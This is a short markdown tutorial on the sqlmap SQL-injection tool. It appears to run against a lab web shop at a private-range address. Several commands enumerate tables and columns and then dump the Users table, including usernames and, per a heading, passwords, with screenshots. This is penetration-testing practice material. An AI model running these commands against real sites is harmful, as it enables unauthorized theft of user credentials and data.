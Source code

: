 # sqlmap

![](assets/16511985745005.png)

## What is sqlmap

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.


## How to use


### Query URL with sqlmap

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3`
  
![Screenshot 2022-04-02 at 11.14.50](assets/Screenshot%202022-04-02%20at%2011.14.50.png)

### List Databases

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3 --tables`

![Screenshot 2022-04-02 at 11.47.42](assets/Screenshot%202022-04-02%20at%2011.47.42.png)


### Show Table Structure of Users

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3 -T Users --columns`

![Screenshot 2022-04-02 at 13.00.00](assets/Screenshot%202022-04-02%20at%2013.00.00.png)


### Output ‘password’ column in table ‘Users’ 



![Screenshot 2022-04-02 at 13.02.13](assets/Screenshot%202022-04-02%20at%2013.02.13.png)


### Output ‘username’ column in table ‘Users’ 

`sqlmap --threads 5  -u http://10.0.127.230/rest/products/search?q=test --level 5 --risk 3 -T Users -C username --dump`

![Table Users](assets/Table%20Users.png)


### Output all  columns in table ‘Users’ 

`sqlmap --threads 5  -u http://10.0.127.230/rest/products/search?q=test --level 5 --risk 3 -T Users --dump`

![dsdefaultAdnin](assets/dsdefaultAdnin.png)
